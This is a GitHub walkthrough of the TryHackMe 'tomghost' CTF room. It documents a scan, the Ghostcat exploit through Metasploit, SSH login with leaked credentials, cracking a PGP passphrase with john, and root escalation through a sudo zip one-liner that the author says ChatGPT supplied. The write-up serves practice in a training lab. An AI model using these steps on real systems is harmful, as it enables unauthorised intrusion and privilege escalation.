










# tomghost CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **tomghost** CTF challenge on [TryHackMe](https://tryhackme.com/room/tomghost). 
---

rustscan and nmap scan



we see open ports 22, 53, 8080, 8009

the website informs about `Apache Tomcat 9.0.30` 

after scanning hidden files we see a lot of 401 Unathorized codes



after searching the internet for `tomcat 9.0.30 exploit` i was redirected to metasploit to search for ghostcat exploit (the name of the room also suggests this)
 


we got access to `/WEB-INF/web.xml` after using metasploit exploit, there is also some description in this file that look like credentials

```
<display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	skyfuck:8[REDACTED]
  </description>
```



i tried to login to ssh with those credentials and it worked



there is another user on the machine called `merlin` and the flag is in his home folder

after logging as `skyf**k` we see 2 files `credential.pgp` and `tryhackme.asc` in tryhackme file there is pgp private key

i used command below to import a pgp key

```
gpg --import tryhackme.asc
```
then we can use command below to decrypt the message 

```
gpg --decrypt credential.pgp
```

we need passphrase for the key, i copied the key to local file and used

```
/usr/sbin/gpg2john key > hash
```

then using 

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```



we cracked the passphrase for the key now we can successffully decrypted the message 

`merlin:a...[REDACTED]...j`



now we can just use `su merlin` to switch to merlin and get the user flag



after inspecting `sudo -l` we have some interesting permissions



chatGPT suggested this one-liner to get root shell

```
sudo /usr/bin/zip exploit.zip /etc/hosts -T --unzip-command="sh -c 'sh'"
``` 

and it worked now we have root access and we can grab root flag



# MACHINE PWNED
